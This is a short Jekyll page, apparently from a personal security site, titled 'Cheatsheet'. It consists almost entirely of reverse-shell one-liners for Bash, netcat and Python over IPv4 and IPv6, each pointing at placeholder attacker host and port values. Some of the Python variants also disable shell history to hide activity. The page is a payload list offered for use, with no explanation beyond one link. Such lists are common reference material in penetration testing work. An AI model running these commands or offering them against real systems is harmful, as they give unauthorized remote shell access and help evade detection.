 ```yaml
---
layout: page
title: Cheatsheet
description: (Use ctrl+f to navigate around)
permalink: /cheatsheet
show_sidebar: true
toc: true
searchable: true
---
```


# Reverse Shells

* [securixy.kz/hack-faq/reverse-shell-ili-bjekkonnekt.html/](https://securixy.kz/hack-faq/reverse-shell-ili-bjekkonnekt.html/)

## Bash

```shell
bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f
```

## Netcat

```shell
{nc.traditional|nc|ncat|netcat} <LHOST> <LPORT> {-e|-c} /bin/bash
```

## Python

### IPv4

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()'
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()'
```

### IPv6

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()'
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()'
```

